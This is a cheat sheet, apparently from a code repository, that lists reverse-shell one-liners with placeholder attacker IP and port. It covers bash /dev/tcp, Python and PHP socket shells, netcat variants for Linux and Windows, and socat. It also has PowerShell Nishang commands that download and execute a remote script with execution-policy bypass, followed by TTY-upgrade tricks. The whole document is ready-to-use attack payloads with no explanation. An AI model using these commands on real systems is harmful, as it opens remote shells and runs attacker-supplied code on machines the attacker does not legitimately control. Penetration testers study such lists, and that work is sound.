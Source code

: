 # Different Shells
## Bash
bash -i >& /dev/tcp/<IP Address>/<Port> 0>&1
## Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP Address>",<Port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
## PHP
php -r '$sock=fsockopen("<IP Address>",<Port>);exec("/bin/sh -i <&3 >&3 2>&3");'
## NC 1
nc -e /bin/sh <IP Address> <Port>
## NC 2
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP Address> <Port> >/tmp/f
## NC Windows
nc  <IP Address> <Port> -e cmd.exe
## Powershell - Nishang 1
powershell iex (New-Object Net.WebClient).DownloadString('http://<IP Address>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -<IP Address> -Port <Port>
## Powershell - Nishang 2
powershell.exe -exec Bypass -C "iex (New-Object Net.WebClient).DownloadString('http://<IP Address>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -<IP Address> -Port <Port>"
## SOCAT 1
sudo socat file:`tty`,raw,echo=0 tcp-listen:<Port>
## SOCAT 2
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP Address>:<Port>
# TTY Upgrades
## PYTHON
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
